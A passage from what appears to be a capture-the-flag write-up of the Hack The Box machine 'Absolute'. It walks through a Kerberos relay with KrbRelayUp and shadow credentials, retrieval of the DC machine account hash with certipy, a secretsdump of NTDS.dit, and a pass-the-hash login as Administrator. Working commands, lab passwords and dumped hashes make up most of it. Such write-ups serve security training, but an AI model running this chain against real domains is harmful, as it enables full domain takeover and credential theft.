sudo faketime -f +7h nxc smb dc.absolute.htb -u m.lovegod -p 'AbsoluteLDAP2022!' -k --generate-krb5-file /etc/krb5.conf
[sudo] password for kali: 
SMB         dc.absolute.htb 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc.absolute.htb 445    DC               [+] krb5 conf saved to: /etc/krb5.conf
SMB         dc.absolute.htb 445    DC               [+] Run the following command to use the conf file: export KRB5_CONFIG=/etc/krb5.conf
SMB         dc.absolute.htb 445    DC               [+] absolute.htb\m.lovegod:AbsoluteLDAP2022!
```

```python
export KRB5_CONFIG=/etc/krb5.conf
```

Now this is exported, i can use the TGT i got earlier from certipy

I shouldnt need to generate one since certipy already did it for me earlier

```python
export KRB5CCNAME=winrm_user.ccache
```

Then i should be able to access WINRM

```python
faketime -f +7h evil-winrm -i dc.absolute.htb -u winrm_user -r absolute.htb
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_user\Documents>
```

I now have access!

## Domain Admin

After spending some time on this, i cannot find an obvious attack path, but all requirements for a kereros relay attack are there, whether it is intended im not sure!

https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/KrbRelayUp.exe

Ill download the exe from the above link

Then upload it to the target

```python
*Evil-WinRM* PS C:\Users\winrm_user\Desktop> upload KrbRelayUp.exe
                                        
Info: Uploading /home/kali/htb/Absolute/KrbRelayUp.exe to C:\Users\winrm_user\Desktop\KrbRelayUp.exe
                                        
Data: 1482752 bytes of 1482752 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\winrm_user\Desktop>
```

Now its uploaded i can exploit this

Ill now look for some CLSIDs, ill just keep trying them til one works

```python
3c6859ce-230b-48a4-be6c-932c0c202048
```

But however, running this tool on the target with `relay` and the shadowcred method and the CLSID the command fails

So after some research this is because it needs a user with credentials, so ill upload `RunasCs.exe` to the target then use `m.lovegod` credentials

```python
*Evil-WinRM* PS C:\Users\winrm_user\Desktop> ./RunasCs.exe m.lovegod 'AbsoluteLDAP2022!' -d absolute.htb 'C:\Users\winrm_user\Desktop\KrbRelayUp.exe relay -m shadowcred -cls 3c6859ce-230b-48a4-be6c-932c0c202048' -l 9

KrbRelayUp - Relaying you to SYSTEM


[+] Rewriting function table
[+] Rewriting PEB
[+] Init COM server
[+] Register COM server
[+] Forcing SYSTEM authentication
[+] Got Krb Auth from NT/SYSTEM. Relying to LDAP now...
[+] LDAP session established
[+] Generating certificate
[+] Certificate generated
[+] Generating KeyCredential
[+] KeyCredential generated with DeviceID ea1b3152-0086-4ffe-bddd-9d39ed9f6348
[+] KeyCredential added successfully
[+] Run the spawn method for SYSTEM shell:
    ./KrbRelayUp.exe spawn -m shadowcred -d absolute.htb -dc dc.absolute.htb -ce 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 -cep fZ1@fJ3/kM5=
```

Now i have a certificate and a password, so ill put the cert into a pfx

```python
echo -n 'MIIKSAIBAzCCCgQGCSqGSIb3DQEHAaCCCfUEggnxMIIJ7TCCBhYGCSqGSIb3DQEHAaCCBgcEggYDMIIF/zCCBfsGCyqGSIb3DQEMCgECoIIE/jCCBPowHAYKKoZIhvcNAQwBAzAOBAiy16gvPMyCEAICB9AEggTYcZcA9kF/P/bmqyA4qOQMcW/LkvTR+g6WwwU/fC80ygSM9Ay3GHcBE8yCG49XhgU2VUIuJegsNlsqLT6NbM22VYDu50sAXdD3TSxXykkr2qdW/6BX7Lsl+m6B5hAENqVzCS2iJMOm4+o+dNghUNobtBSXehnfXZ7I/zutWY0mDztaLoir/QiYjW9AZVYInKpfWiRJLomk8Cua3ZLg/6jDv+WAeTjFT1IbGvkpTTqzQBq6EB9N4uMHqifSFpuxRlbiY2n4vSGelqqe3fTEtnHoVGGwOZcrv3gJq2gZEvJNeu0d0d5+ZvkSzk59DFB+z3ExJEV09Twf9mgUjWwHOO4BduZI+E+2/RIVrAQMB0ZKdWL5//cADf5Fppg4M8iFt78OmUm6aZPjlJuoma8K41SXr4+LEUDWaAS/Nw5kZviWQj2k+ZnFKNbRKgQqV3RyG863bEJVPEZSI9jjzv80i09UEXwgTtqZILSZEUtxgVcNh96u0aQZzDG4gYTLI0g/8GuiYj5HF4dAb1I6Rbk3NUbd4jJxBRsskW4hXl0elfc8WHzLWd9lhawr77JqPk4lXCwlywIKxT8e6sH5seJ8uqVUikJ1s9+6nguDzdKN6bka0ivT1rDxvCVYnpH5PEENMln67lu+NCLNMBg3QtHx3YVpSS0hu0aHWES8SXXZg+h9CgmftaCwmXh5e6b5NXsuAE8qZGnyNCP3Vu//L6CL1loU3zrmwTlVaPcU6CXLK11R1Dh8jp3wc+0OdWTnUmWBjic6riIQ2SIKaSx+b75oI5+otHVDcbS14mVbqHVFJw/kR+HGkviTxcqhj0IS4Qy1+TFf0jaT41OWXxh80LdzICQ9RNvGlhz+Fyj3WSYXIL8wJo2hz6LTUSSJibVZt8eBUpcpql+xHitK/uCFSBa5QMjDNXtJ4z6S8SK6jf7zKGobOkDBDFCmBvhhVFOZj4cvv8Mb7S4fNXeh8kxUK25Ik5eJolRS6PG5FYPU8s5uZ2P/G12+IR+QKTWocLJA2l2y2lFDJvphVfCo0h1bXVLo8oxutJXCVxFyUKAwFYQFrXASrkVzSvyjUs7q0QxIDTFe7tdmnB4SXjQBFzlXZgVPz5AX0dwxpf35EDkg5ZHSqJOgkXAaX7tNSiby9UWXMmESWjeZhrHLaBF7FV87E+jryL1bec1t3GqBMi2LF+rQMc7jt/ua1zT19ILA6h0FefPFfgPXKMSgX20bAkQzv/znj1SKLajWNF9bFMJhTOroXr/G+WJIyFis737Uj+IawCNwv2uCvOUAqHkaNxU9jZEOCxlgP1d4mmLDHkXSdakC46bUjz4GWcm6IKYbijIotlqrt6MJY6gJE3gvmZQYcIqptQffLTUfiqeOvqjhg89jvChru5efJexizE5r+HnSpy586FKvQuXDb1tK0euMplKyAU2IaxaVwPTvbT8F1HPCzZfK3nKokdN7aaxKyxfdi0Xp+YPT9au3uoDDkhzePqUw2aDDrp+Dl03UD5Ves+BPGN0i88H6b1BfxB+a64uuktochAZ4s1vIzelzoA9FiwO53i6rGGia3IoHQP8ZhL5w8UGJ30jYgn5xeyg1/eWWy5ps0b2yh4QY/xmCyyF7W0LZfPQ1hMMSNqMHTBYOCeAfxwuNx3e1nFUAzw1e9TGB6TATBgkqhkiG9w0BCRUxBgQEAQAAADBXBgkqhkiG9w0BCRQxSh5IAGUAZgA0ADYAMgAxADAAZgAtAGQAOABlADcALQA0ADUAYQA2AC0AYgA1ADcAMwAtADAANAA0ADAANgAyAGMAOQA3ADMAZQBhMHkGCSsGAQQBgjcRATFsHmoATQBpAGMAcgBvAHMAbwBmAHQAIABFAG4AaABhAG4AYwBlAGQAIABSAFMAQQAgAGEAbgBkACAAQQBFAFMAIABDAHIAeQBwAHQAbwBnAHIAYQBwAGgAaQBjACAAUAByAG8AdgBpAGQAZQByMIIDzwYJKoZIhvcNAQcGoIIDwDCCA7wCAQAwggO1BgkqhkiG9w0BBwEwHAYKKoZIhvcNAQwBAzAOBAg1XC2LEYGtPgICB9CAggOIzb/Ez6wESxZtpZNk3XHADM0dgjjNEU/AOF/RLXUllRz2HtyCvfxIVnwxdG+Zx6NhzDxXH/zFNA/wj6FL/+Uiw5REk/M6H1+rr8u/vhUcHjAdok2Z6K14zBWtL2KJr74zGqKPruJNNB6YnWcoPnIRSmubFpVjnQ1EVReT3W6C3iPdcfA3s+a4fYF1JA180pjuVzJAw5CaovsL2J0N6JY0ugQigjgQ+NLgINbVXohz8IXbHQn9NBWWf9iJ9vJYCFthhFyQpT8xIt+sv1CrEgQusone62zEKIk25ngoDrycanbtEZpSvUxttC5mtgzBo5nN/lMQikxiYZNDWi1iLWWZxXO0UF4MgI3ZRFXxF8eqEaUDF2WZ+d10TAQN50jI3WN8+yglUUHg5rhLMAXViiFEpNPColFIYQfVB41NCD+whuA/NM73lHrSe6RDSScgRTSU4gZ8hmZhR9Ri53xG/HIF+GHhgrFckVRFcq9FY1pVNmzulQLb5UvtFH08M4yFS+iBcFqntSkxX5u4oCYW8DLogMYov2GnQ42JbU+OYx/wkDzCSKKmy8ApJHPVLsr2z1SPvIFb6segmynxweQLGWccYFhHqv8pXF2VnEDtOUuT3br0qTsM8gIYqrde4CbG8AYcnUDxCxZjzsMT52b6PpfgB+vEINiyZDT99QOiO11/sP3cm5pQYFwjFLRnER3tGiUK3Vc5LpcSufCJaU7w50nLa6Mela3ri4nbpzOV2JppGI+SFs55JNj0FH4Kon2ezKtjBjqDBfvkFQKwUj4j4G+LsEDVANw/h/HU4JdAzV78TC9ucHqPHUBXtMWMGFznf/ahlyPvWKPEty+JAomE7xieKhTnPdTYdI7jH0ZkPJBLj5UEShUjrwAJFDW/h/4vNrO0ga643Wh/iSR+RXL/LG2kcbeqpr8hfGszHgOitsLDlH7/uNSpZ9C6VRQQA/7W8hHOwg3ljEg8NazwYyeMbdjFWng+SXtzDXod8A52zNSIVpA0JHgG//1pglHNjFMuVC+VKnhGIjTM+34SuwASA+LKXCxbDLPIiNxouLMdTv1E/FwSqpvxVmlDQzkR9mBDtVy65bE2vYgXSsWmcr6EsH/oruP1qvDlk5FLxBG8/x8PnJAlZdSMnU+J3+TrmM9JNRV++vtnsJVxPTD8BrGT4gezLUC6Gfjf/QgYXQK2h/Cfs3UQ3L7N+MOTrTA7MB8wBwYFKw4DAhoEFGA4C7xdFu/mUAtHylIZL2/fH20FBBSmdWIcC+yjAbTLyFExfaBQNI5eMQICB9A=' | base64 -d | tee dc.pfx
```

This placed the cert into the pfx, now i can use this pfx for get the NT hash for the DC machine account, since this certificate is for the DC machine account

```python
faketime -f +7h certipy-ad auth -domain absolute.htb -username 'DC$' -password 'fZ1@fJ3/kM5=' -dc-ip 10.129.232.60 -pfx dc.pfx
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'dc$@absolute.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'dc.ccache'
[*] Wrote credential cache to 'dc.ccache'
[*] Trying to retrieve NT hash for 'dc$'
[*] Got hash for 'dc$@absolute.htb': aad3b435b51404eeaad3b435b51404ee:a7864ab463177acb9aec553f18f42577
```

I now have the hash!

```python
faketime -f +7h secretsdump.py absolute.htb/'dc$'@dc.absolute.htb -hashes ':a7864ab463177acb9aec553f18f42577'
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator\Administrator:500:aad3b435b51404eeaad3b435b51404ee:1f4a6093623653f6488d5aa24c75f2ea:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3ca378b063b18294fa5122c66c2280d4:::
J.Roberts:1103:aad3b435b51404eeaad3b435b51404ee:7d6b7511772593b6d0a3d2de4630025a:::
M.Chaffrey:1104:aad3b435b51404eeaad3b435b51404ee:13a699bfad06afb35fa0856f69632184:::
D.Klay:1105:aad3b435b51404eeaad3b435b51404ee:21c95f594a80bf53afc78114f98fd3ab:::
s.osvald:1106:aad3b435b51404eeaad3b435b51404ee:ab14438de333bf5a5283004f660879ee:::
j.robinson:1107:aad3b435b51404eeaad3b435b51404ee:0c8cb4f338183e9e67bbc98231a8e59f:::
n.smith:1108:aad3b435b51404eeaad3b435b51404ee:ef424db18e1ae6ba889fb12e8277797d:::
m.lovegod:1109:aad3b435b51404eeaad3b435b51404ee:a22f2835442b3c4cbf5f24855d5e5c3d:::
l.moore:1110:aad3b435b51404eeaad3b435b51404ee:0d4c6dccbfacbff5f8b4b31f57c528ba:::
c.colt:1111:aad3b435b51404eeaad3b435b51404ee:fcad808a20e73e68ea6f55b268b48fe4:::
s.johnson:1112:aad3b435b51404eeaad3b435b51404ee:b922d77d7412d1d616db10b5017f395c:::
d.lemm:1113:aad3b435b51404eeaad3b435b51404ee:e16f7ab64d81a4f6fe47ca7c21d1ea40:::
svc_smb:1114:aad3b435b51404eeaad3b435b51404ee:c31e33babe4acee96481ff56c2449167:::
svc_audit:1115:aad3b435b51404eeaad3b435b51404ee:846196aab3f1323cbcc1d8c57f79a103:::
winrm_user:1116:aad3b435b51404eeaad3b435b51404ee:8738c7413a5da3bc1d083efc0ab06cb2:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:a7864ab463177acb9aec553f18f42577:::
```

I have now dumped the contents of NTDS.dit

```python
evil-winrm -i dc.absolute.htb -u Administrator -H '1f4a6093623653f6488d5aa24c75f2ea'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

```python
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

Domain Admin!


